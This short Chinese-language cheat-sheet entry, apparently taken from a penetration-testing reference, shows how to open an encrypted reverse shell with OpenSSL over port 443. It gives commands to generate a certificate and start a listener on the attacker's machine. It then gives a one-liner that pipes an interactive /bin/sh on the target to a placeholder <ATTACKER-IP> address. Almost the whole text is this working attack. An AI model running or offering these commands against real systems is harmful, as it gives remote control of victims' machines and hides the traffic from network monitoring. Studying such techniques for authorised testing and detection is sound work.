 ### OpenSSL
反弹443端口, 加密流量传输
1. 在远程攻击主机上生成密钥文件
`openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes`
2. 在远程攻击主机上启动监视器
`openssl s_server -quiet -key key.pem -cert cert.pem -port 443`
3. 在目标机上反弹shell
`mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect <ATTACKER-IP>:<PORT> > /tmp/s; rm /tmp/s`

https://medium.com/@int0x33/day-43-reverse-shell-with-openssl-1ee2574aa998
